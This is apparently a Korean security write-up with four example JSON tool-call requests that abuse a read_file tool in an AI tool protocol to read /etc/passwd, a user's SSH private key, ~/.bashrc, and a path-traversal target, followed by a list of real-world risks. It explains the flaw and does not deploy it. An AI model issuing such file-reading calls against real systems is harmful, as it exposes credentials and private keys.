 #### 🚨 공격 예제 1: 시스템 패스워드 파일 접근 (Linux/macOS)
```json
{
  "method": "tools/call",
  "params": {
    "name": "read_file",
    "arguments": {
      "file_path": "/etc/passwd"
    }
  }
}
```

#### 🚨 공격 예제 2: SSH 키 접근
```json
{
  "method": "tools/call",
  "params": {
    "name": "read_file",
    "arguments": {
      "file_path": "/Users/isaac/.ssh/id_rsa"
    }
  }
}
```

#### 🚨 공격 예제 3: 상위 디렉토리 탐색
```json
{
  "method": "tools/call",
  "params": {
    "name": "read_file",
    "arguments": {
      "file_path": "../../../etc/hosts"
    }
  }
}
```

#### 🚨 공격 예제 4: 환경 설정 파일
```json
{
  "method": "tools/call",
  "params": {
    "name": "read_file",
    "arguments": {
      "file_path": "/Users/isaac/.bashrc"
    }
  }
}
```

### 실제 위험 상황
- 데이터베이스 설정 파일 노출로 DB 크리덴셜 탈취
- 애플리케이션 소스 코드 노출
- 다른 사용자의 개인 파일 접근

---